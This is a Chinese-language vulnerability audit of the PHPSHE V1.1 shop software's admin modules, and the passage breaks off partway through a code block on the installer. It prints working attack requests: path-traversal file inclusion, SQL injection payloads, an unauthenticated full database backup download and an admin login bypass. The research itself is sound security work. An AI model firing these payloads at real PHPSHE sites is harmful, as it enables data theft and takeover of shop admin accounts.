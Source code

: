 ## **PHPSHE V1.1 （四）**
### **後臺入口 admin.php**
和前臺一樣，該文件首先包含common.php文件。
<p>
然後是定義後臺導航菜單的陣列$adminmenu,接著就是判斷管理員權限，以及包含後臺操作類模塊。

```php
if (!pe_login('admin') && $act != 'login') {
    pe_goto('admin.php?mod=do&act=login');
}
if (pe_login('admin') && ($act == 'login' or $mod == 'index')) {
    pe_goto('admin.php?mod=order&act=list');
}
```
此處利用兩個`if`條件判斷登陸和未登入的兩種情況。
<p>

`漏洞出現`這裡用`&&`兩個條件。都達成的時候才會進入`pe_goto。`
<p>

在未登入的時候，只要`$act`為`login`的時候就不會進入`pe_goto`。

在登陸之後，只要`$act`不為`login`並且`$mod`不為`login`的時候也不會進入`pe_goto。`

再看後面，直接就包含了`$module`和`$mod`

```php
include("{$pe['path_root']}module/{$module}/{$mod}.php");
```

### **【Bug 0x13: 任意文件包含漏洞 有限制條件】（同 【Bug 0x01】）**

```/admin.php?mod=../../robots.txt%00&act=login```

後臺模塊
接下來，我們在跟進分析`/module/admin/`裏面的後臺模塊：
- ad.php
- admin.php
- article.php
- ask.php
- cache.php
- category.php
- class.php
- comment.php
- db.php
- do.php
- link.php
- order.php
- page.php
- payway.php
- product.php
- setting.php
- user.php

由於有`act=login`後臺操作我們就不能執行act等操作了。
<p>
直接看`switch ($act) {的default :`塊。
<p>
### **admin.php**
<p>
直接就可以看到管理員用戶名

### **【Bug 0x14: 信息洩漏】**
```/admin.php?mod=admin&act=login```

### **ask.php**

```php
default :
    $sqlwhere = " and `ask_state` = '".intval($_g_state)."'";
    $_g_name && $sqlwhere .= " and b.`product_name` like '%{$_g_name}%'";
    $_g_text && $sqlwhere .= " and a.`ask_text` like '%{$_g_text}%'";
    $_g_user_name && $sqlwhere .= " and a.`user_name` like '%{$_g_user_name}%'";
    $sql = "select * from `".dbpre."ask` a,`".dbpre."product` b where a.`product_id` = b.`product_id` {$sqlwhere} order by a.`ask_id` desc";
    $info_list = $db->sql_selectall($sql, array(20, $_g_page));
```
看到了麼，限制了act也是有機可乘的。有一個注入存在。

### **【Bug 0x15: SQL注入 獲取任意數據庫數據】**

<pre>/admin.php?mod=ask&act=login&name=%' or 1=1%23</pre>

**comment.php & order.php & product.php & user.php**

### **【Bug 0x16: SQL注入 獲取任意數據庫數據】（同 【Bug 0x15】）**

### **db.php**
大致瀏覽、發現這是一個數據庫備份導入模塊，並且與其他模塊不同，沒有用到`switch`。
<p>
只判斷了`$act == 'import'`導入功能，對於備份並沒有用act判斷。

```php
if (isset($_p_pebackup)) {//備份資料庫
    $pe_cutsql = "/*#####################@ pe_cutsql @#####################*/\n";
    if (isset($_p_pebackup)) {//不分卷
        if ($_p_backup_cut && $_p_backup_where == 'down') 
            pe_error('只有在備份在伺服器才可以使用分卷功能...');
        if ($_p_backup_cut && !$_p_backup_cutsize) 
            pe_error('使用分卷備份必須填寫分卷文件大小...');
        if ($_p_backup_where == "server") {
            !is_dir($back_path) && mkdir($back_path, 0777, true);
            !is_writable($back_path) && pe_error("{$back_path} 目錄沒有寫入權限...");
        }
        if (!$_p_backup_cut) {
            $sql_arr = array();
            foreach ($table_list as $v) {
                $sql_arr = array_merge($sql_arr, dosql($v['Name']));
            }
            $sql = implode($pe_cutsql, $sql_arr);
            if ($_p_backup_where == 'down') {
                down_file($sql, "db_all.sql");
            }
            elseif ($_p_backup_where == 'server') {
                if (file_put_contents("{$back_path}db_all.sql", $sql)) {
                    pe_success("資料庫備份完成！");
                }
                else {
                    pe_error("資料庫備份失敗...");
                }
            }
        }
        else {
            $vnum = 1;
            $sql_arr = array();
            foreach ($table_list as $v) {
                $sql_arr = array_merge($sql_arr, dosql($v['Name']));
                $sql = implode($pe_cutsql, $sql_arr);
                if (strlen($sql) >= $_p_backup_cutsize * 1000) {
                    file_put_contents("{$back_path}db_v{$vnum}.sql", $sql);
                    $sql_arr = array();
                    $vnum++;
                }
            }
            $sql && file_put_contents("{$back_path}db_v{$vnum}.sql", $sql);
            pe_success("資料分卷備份完成！");
        }
    }
}
```
因此，我們可以直接備份數據庫，下載襲來。

```php
if ($_p_backup_where == 'down') {
    down_file($sql, "db_all.sql");
}
```

### **【Bug 0x17: 完全數據庫信息洩漏】**
POST:
<p>
<pre>/admin.php?mod=db&act=login</pre>
DATA:
<p>
<pre>backup_cut=0&backup_where=down&pebackup=1</pre>


### **do.php**

```php
default:
    if (isset($_p_pesubmit)) {
        $_p_info['admin_pw'] = md5($_p_info['admin_pw']);
        if ($info = $db->pe_select('admin', pe_dbhold($_p_info))) {
            $db->pe_update('admin', array('admin_id'=>$info['admin_id']), array('admin_ltime'=>time()));
```

### **【Bug 0x18: SQL注入 任意用戶登陸】（同【Bug 0x09】）**
<pre>
/admin.php?mod=do&act=login

info[admin_name`<>1-- -]=admin&info[admin_pw]=admin&pesubmit=+
</pre>

一般來說，到這裡基本上就要結束了。
<p>
目前，並沒有找到什麼可以getshell的漏洞。
<p>
不要放棄，還有個地方我們沒看。
<p>
就是install目錄。
<p>

### **isntall.php**
看了下，這個文件利用沒有lock限制。
<p>
這樣可以導致重裝覆蓋，產生一個不小的漏洞。

```php
switch ($_g_step) {
    //#####################@ 配置信息 @#####################//
    case 'setting':
        if (isset($_p_pesubmit)) {
            $dbconn = mysql_connect("{$_p_db_host}:{$_p_db_port}", $_p_db_user, $_p_db_pw);
            if (!$dbconn) pe_error('資料庫連接失敗...数据库ip，用户名，密码对吗？');
            if (!mysql_select_db($_p_db_name, $dbconn)) {
                mysql_query("CREATE DATABASE `{$_p_db_name}` DEFAULT CHARACTER SET utf8", $dbconn);
                !mysql_select_db($_p_db_name, $dbconn) && pe_error('数据库选择失败...数据库名对吗？');
            }
            mysql_query("SET NAMES utf8", $dbconn);
            mysql_query("SET sql_mode = ''", $dbconn);

            $sql_arr = explode('/*#####################@ pe_cutsql @#####################*/', file_get_contents("{$pe['path_root']}install/phpshe.sql"));
            foreach ($sql_arr as $v) {
                $result = mysql_query(trim(str_ireplace('{dbpre}', $_p_dbpre, $v)));
            }
            if ($result) {
                mysql_query("update `{$_p_dbpre}admin` set `admin_name` = '{$_p_admin_name}', `admin_pw` = '".md5($_p_admin_pw)."' where `admin_id`=1", $dbconn);
                $config = "<?php\n\$pe['db_host'] = '{$_p_db_host}'; //数据库主机地址\n\$pe['db_name'] = '{$_p_db_name}'; //数据库名称\n\$pe['db_user'] = '{$_p_db_user}'; //数据库用户名\n\$pe['db_pw'] = '{$_p_db_pw}'; //数据库密码\n\$pe['db_coding'] = 'utf8';\n\$pe['url_model'] = 'pathinfo'; //url模式,可选项(pathinfo/pathinfo_safe/php)\ndefine('dbpre','{$_p_dbpre}'); //数据库表前缀\n?>";
                file_put_contents("{$pe['path_root']}config.php", $config);
                pe_goto("{$pe['host_root']}install/index.php?step=success");
            }
            ```